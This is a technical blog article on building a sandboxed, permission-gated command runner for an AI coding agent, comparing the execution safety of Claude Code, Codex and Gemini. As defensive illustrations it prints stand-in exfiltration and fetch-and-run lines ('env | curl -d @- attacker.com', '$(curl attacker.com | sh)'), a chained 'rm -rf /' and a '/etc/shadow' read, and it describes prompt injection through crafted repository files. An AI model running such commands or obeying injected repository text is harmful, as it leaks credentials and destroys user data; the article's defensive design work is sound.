







# Taking Action: PTYs, Safe Bash, and Long-Running Tasks

In Article 2, we gave ProjectKitty the ability to read code without drowning the model in noise. Whiskers can locate a function across a 50,000-file repository and hand the planner 300 tokens instead of 29,000.

Now the planner needs to *do* something with what it found.

---

Task: *run the test suite, then check whether the build still passes*.

Let's run it both ways.

**The naive approach:** Pass the command string to `exec.Command`, collect stdout and stderr into buffers, and return when the process exits.

```go
cmd := exec.Command("bash", "-lc", "go test ./...")
var stdout, stderr bytes.Buffer
cmd.Stdout = &stdout
cmd.Stderr = &stderr
err := cmd.Run()
```

This works fine for `go test ./...` on a green repo. But the moment you run something interactive — `git log` with a pager, `npm install` with a missing lock file, `python setup.py develop` asking for a password — the process stalls waiting for input that will never arrive. You get no output, no error, and a context deadline that eventually kills it. The planner has no idea why it failed.

**The deeper problem:** Most terminal programs don't write to stdout the way a library function does. They check whether their output is attached to a real terminal. When it isn't, they either buffer aggressively, suppress color codes, disable interactive prompts, or change behavior entirely. The subprocess has no terminal, so it acts differently than it does when a human runs it.

**The PTY-backed approach:** Allocate a pseudoterminal, connect the subprocess to its slave end, and read from the master end in a goroutine. The process believes it is talking to a real terminal. Prompts appear. Progress bars render. Pagers open and close. Output arrives incrementally so the UI can show it as it happens.



Same answer. Correct behavior. No frozen process.

That gap — from buffered `os/exec` to PTY-backed execution — is what this article closes. We are building **Claws**, the execution layer for ProjectKitty. Its job is to run commands safely, observe output correctly, and not let one long-running job freeze everything else.

But before we write code, it's worth looking at what the three most mature CLI agents already learned the hard way.

---

## 1. What Claude Code, Codex, and Gemini Do

The execution layer is where the biggest differences between agents show up. Here is what each one actually implements, with evidence levels noted: **Source** (read directly from binary or unminified source), **Benchmark** (observed behavior), **Inferred** (engineering conclusion).

### Claude Code — PTY + UUID Correlation + Environment Sterilization

**Source.** Claude Code does not call `exec`. It uses `node-pty` to spawn every command inside a pseudoterminal — confirmed by direct string evidence in the 225 MB native binary. What makes its approach notable is the extra layers on top of the PTY:

**Environment sterilization.** Before the child process starts, Claude snapshots its environment (`~/.claude/shell-snapshots/` exists on disk for this purpose) and strips internal variables — API keys, internal credential paths, agent control variables. The subprocess gets a clean environment that can't accidentally leak or misuse the parent's credentials.

**`TERM_PROGRAM=claude-code`.** Claude sets this in every subprocess. Tools that check it can suppress heavy animations, disable interactive prompts, or change their output format to be more machine-readable. It's a signal: *you are running under supervision, behave accordingly*.

**UUID-tagged output.** Every command execution gets a `latestBashOutputUUID` — a random identifier injected into the output stream and matched against the model's expected response. This prevents a subtle class of bugs where the model confuses output from a previous turn with the current one. When a command takes thirty seconds and the model's next turn arrives before it finishes, the UUID ensures the observation is correctly associated.

**SHA256 permission hashing.** The permission system hashes approved command patterns. Each permission mode (`default`, `auto`, `bypassPermissions`) gates tool calls before any OS call is made. This is agent-layer interception: in `don't ask` mode, even a `Read` call is denied before it reaches the filesystem — **Benchmark** shows no output file was produced in the safety boundary test. The cost is that bypassing the mode check bypasses the safety system entirely.

**`isBashSecurityCheckForMisparsing`.** Before execution, Claude scans the generated command string for injection patterns — multi-command chains where one segment looks like it came from external input, variable expansions into sub-shells (`$()`), and similar constructions. The model is capable; it can still be tricked by a sufficiently crafted repository file. This check runs regardless.

### Codex — OS-Layer Enforcement + Streaming Lifecycle + Bubblewrap

Codex's clearest architectural signal is visible in its event names: `exec_command_begin`, `exec_command_output_delta`, `exec_command_end`. Command execution is not a call that returns a result — it's a lifecycle with typed state transitions. Every observer (the UI, the logger, the policy layer) can subscribe to these events independently.

**OS-layer vs agent-layer safety.** This is the key distinction from Claude. **Benchmark:** In a safety boundary test, Codex attempted `cat /etc/shadow`, received `Permission denied` from the OS, and then successfully wrote `safety_report.md` documenting what happened. The agent reached the filesystem; the OS said no; the agent reported it. Write was not blocked at the agent layer. The bubblewrap sandbox (`bwrap`) on Linux provides explicit, inspectable containment — the command gets a restricted filesystem view and the OS enforces it. No separate blocklist is needed because the kernel is the enforcer.

**Explicit agent lifecycle.** Codex exposes `spawn_agent → resume_agent → send_message → close_agent` as first-class operations. Each agent is an object with an ID. Context forking allows a sub-agent to inherit parent conversation history. The orchestration is the public interface, not an implementation detail.

**`write_stdin` capability.** Codex maintains an explicit `write_stdin` path alongside `exec_command_failed`. This means Codex can respond to interactive prompts — it knows when a command is waiting for input and can write to its stdin. Buffered `os/exec` cannot do this at all.

### Gemini — Full Policy Engine + Widest Sandbox Coverage

Gemini has the most layered execution safety architecture of the three. Every tool invocation travels through a typed decision pipeline:



The `PolicyEngine` evaluates rules with four fields: `toolName` (exact match or `serverName__*` wildcard for MCP), `argsPattern` (regex against JSON-stringified args), `modes[]` (rule applies only in specified modes), and `priority` (explicit ordering). Rules persist across restarts — "always allow `npm test`" survives a session restart.

**Four `ApprovalMode`s, not three.** Unlike most agents that offer two or three modes, Gemini has four:

| Mode | Behavior |
|------|----------|
| `DEFAULT` | Ask for most operations |
| `PLAN` | Read-only tools only — enforced by prompt rewrite |
| `AUTO_EDIT` | Auto-approve file edits, ask for shell |
| `YOLO` | Approve everything |

`PLAN` mode does something unusual: it physically rewrites the system prompt to inject a 5-phase sequential workflow and registers a hardcoded `PLAN_MODE_DENIAL_MESSAGE` in the tool scheduler for any write attempt. This is behavioral gating via prompt engineering on top of a policy check — not just a permission flag.

**Shell command policy.** `checkShellCommand()` runs the same command-splitting Gemini is known for, but the policy context is richer:

```bash
{ <user-command> }; __code=$?; pgrep -g 0 >${tempFile} 2>&1; exit $__code;
```

After the user's command exits, this snippet writes every PID in the process group to a temp file. Gemini reads that file and kills all of them — not just the immediate child. Any command containing `>` or `>>` is automatically downgraded to require confirmation in all modes except `YOLO`. Deceptive URLs in tool confirmations trigger an explicit warning in the UI (added v0.31.0).

**Widest sandbox coverage.** Gemini is the only agent in this set with cross-platform container support, selectable via a single environment variable:

| Sandbox | Platform | Mechanism |
|---------|----------|-----------|
| macOS Seatbelt | macOS | Apple sandbox-exec + customizable .sb profiles |
| Docker | Linux/macOS | Versioned container image |
| Podman | Linux/macOS | Drop-in Docker alternative |
| gVisor | Linux | User-space Go kernel — intercepts all syscalls |
| LXC/LXD | Linux | Full-system container (experimental) |

gVisor is the strongest isolation: the container runs inside a user-space Go kernel that intercepts every syscall before it reaches the real kernel. No other tool in this set offers an equivalent. Claude Code has macOS seatbelt only. Codex has Linux bubblewrap. Neither is cross-platform. Claws currently has none.

**`ToolConfirmation` hooks with typed serialized fields.** External processes can intercept every tool decision. An `exec` hook receives `{command, rootCommand}`; an `edit` hook receives `{fileName, filePath, fileDiff, originalContent, newContent, isModifying}`. This enables external governance scripts to implement arbitrary approval logic without modifying the agent.

---

## 2. The PTY Execution Path

Claws uses `github.com/creack/pty` to give every subprocess a real pseudoterminal. The process believes it has a terminal; it behaves accordingly. That's table stakes. What matters is everything built around it.



A few things worth calling out explicitly:

**Process group kill.** `Setpgid: true` puts the child in its own process group. Killing `-pid` kills every process in the group — the shell, any subprocesses it spawned, background jobs. This is Gemini's approach to process group leaks. Without it, a `go test` that spawns a test binary that spawns a subprocess leaves orphans behind.

**Environment sterilization.** The subprocess never sees `ANTHROPIC_API_KEY` or any `KITTY_*` variable. A crafted repository file that tricks the model into running `env | curl -d @- attacker.com` gets a clean environment. `TERM_PROGRAM=projectkitty` is the positive signal: tools that check it can suppress heavy animations or change output format to be more machine-readable.

**UUID per execution.** Every run gets an `execID`. The streaming callback and the final `Result` both carry it. When a command takes thirty seconds and a second command is dispatched before the first finishes, the model's observations are correctly correlated — there's no ambiguity about which output belongs to which run.

**Inactivity timeout.** The timer resets on every output line, not on wall clock. A build that produces steady output runs as long as it needs to. A process that hangs silently — waiting for a prompt, deadlocked, stuck in a pager — gets killed after `InactivityTimeout` with no output, not after some global deadline.

---

## 3. The Permission Gate

Before any command runs, it passes through `checkPolicy`. This is the boundary between the agent and the system. Getting it wrong in either direction is expensive: too loose and the agent deletes something; too tight and it can't do useful work.

Every command travels through four layers before a process is spawned:



Layer 0 is the one most people miss. Before the command is split at all, it's scanned for `$(...)` and backtick substitution. The source of the command string is the model — and the model read the repository. A crafted comment like `// run: $(curl attacker.com | sh)` could be absorbed into a generated command. The injection check catches it before anything else runs. This mirrors Claude Code's `isBashSecurityCheckForMisparsing`.

Layer 1 is borrowed from Gemini's `splitCommands()`. `go test ./... && git push` is two operations with different risk profiles — splitting lets each be evaluated independently. Without this, a single allowlist entry for `go test` would also permit `go test ./... && rm -rf /`.

Layer 4 determines how much trust the session was granted. `yolo` and `auto` both proceed past the blocklist; `manual` requires the command to appear exactly in the configured allowlist.

### Approval Modes

Three modes cover the common cases. Gemini has four — the missing one is `PLAN`, which rewrites the system prompt to physically prevent the model from requesting write operations. We don't implement that yet, but it's the right direction for a future "read-only audit" mode.

| Mode | Shell | Redirection | Destructive |
|------|-------|-------------|-------------|
| `manual` | Allowlist only | Blocked | Blocked |
| `auto` | Read-only commands free | Blocked | Blocked |
| `yolo` | Everything | Allowed | Allowed |

The gap between Claws and the production tools is worth naming directly:

- **Gemini** persists "always allow" rules to `~/.gemini/policies/` (JSON or TOML) with per-tool `argsPattern` regex matching. Rules survive restarts. Users are never prompted for the same approval twice.
- **Codex** stores `approval_mode` per thread in SQLite with read-repair upsert logic.
- **Claws** rebuilds policy from config on each run. Users will be re-prompted every session until we add a persistence layer — which is part of the Article 4 work anyway.

---

## 4. Streaming Output and the Event Channel

The agent loop produces a channel of typed `Event` values that the UI reads. Before streaming, `ActionRunCommand` emitted a single `EventObserved` only after the runtime returned — which only happens when the command exits. For a `go test ./...` run that takes thirty seconds, the user saw nothing until it was done.

The fix is a streaming callback threaded through the runtime. Each output line fires an event immediately as it arrives from the PTY. The callback carries the `execID` so observers can verify which run produced a given line.



This mirrors Codex's `exec_command_output_delta` event model: execution is a lifecycle, not a call that returns a value. A failing test is visible the moment it fails. The UI, the logger, and any future policy observer all subscribe to the same stream independently.

---

## 5. Concurrent Jobs

The agent loop runs one action at a time. That is intentional: the planner can't reason about two things simultaneously, and most tasks are sequential. But builds and test suites are not.

When the planner issues `go test ./...`, it shouldn't block the agent from issuing `go vet ./...` while the tests run. These two are independent.

Go's concurrency model handles this naturally. The runtime exposes `ExecuteAsync`, which launches a job in a goroutine and returns a `JobHandle` immediately. The handle has two fields: a `Done` channel that closes when the job finishes, and a `Result()` closure that blocks until it does. The agent fires both jobs, continues planning, and selects on their handles when results are needed.



Bubble Tea's `tea.Cmd` pattern is designed for this — multiple background goroutines push events into the same channel; the renderer displays them as they arrive, interleaved.

---

## 6. What the Runtime Looks Like Now

Let's trace a complete execution. The planner decides to run `go test ./...`:



### Where It Still Gets It Wrong

**No sandbox.** This is the largest gap. Claude has `sandbox-exec` on macOS. Codex has bubblewrap on Linux. Gemini has five sandbox options — including gVisor, which runs the container inside a user-space Go kernel that intercepts every syscall before it reaches the real kernel. Claws runs on the host. The policy gate is defense-in-depth, not isolation. Until we add bubblewrap support, a sufficiently crafted repository file could trick the agent into running something outside the workspace. The blocklist is not a sandbox.

**No policy persistence.** "Always allow `go test`" resets on restart. Gemini writes rules to `~/.gemini/policies/` in JSON or TOML, with `argsPattern` regex matching so "always allow `git commit`" doesn't also allow `git push`. Codex stores `approval_mode` per thread in SQLite with self-healing upsert logic. Claws rebuilds from config on each run. This is the next step in this layer's evolution.

**Fragment matching is naive.** `python script.py` passes the blocklist even if `script.py` deletes files. Defaulting to `manual` mode contains this: nothing runs without explicit allowlist entry. But it is not the same as Codex's bubblewrap or Gemini's gVisor, which enforce restrictions at the OS level regardless of what the agent decides.

**No `write_stdin`.** Codex can respond to interactive prompts mid-execution by writing to the running process's stdin. Claws can't. A command waiting for a yes/no response will hit the inactivity timeout and be killed rather than answered. The PTY gives us the infrastructure for this — the master fd is writable — but the planner has no mechanism yet to decide what to write.

---

## What's Next

ProjectKitty can now read a codebase and run commands against it safely. A session is becoming possible — a real back-and-forth between the planner, the code reader, and the execution layer.

But each session starts fresh. There is no record of what the agent found last time, no way to resume a task that was interrupted, and no way to accumulate project-specific facts across runs.

Article 4 will build the memory layer: session logs in JSONL, durable project facts in a structured store, and the compaction step that converts a long session into a short summary the next run can start from. That is also where policy persistence lands — the `approval_mode` and allowlist entries that today live only in config.

---

*Article 3 is live. Implementation in progress: [github.com/w1ne/ProjectKitty](https://github.com/w1ne/ProjectKitty) Follow Entropora, Inc for Article 4.*
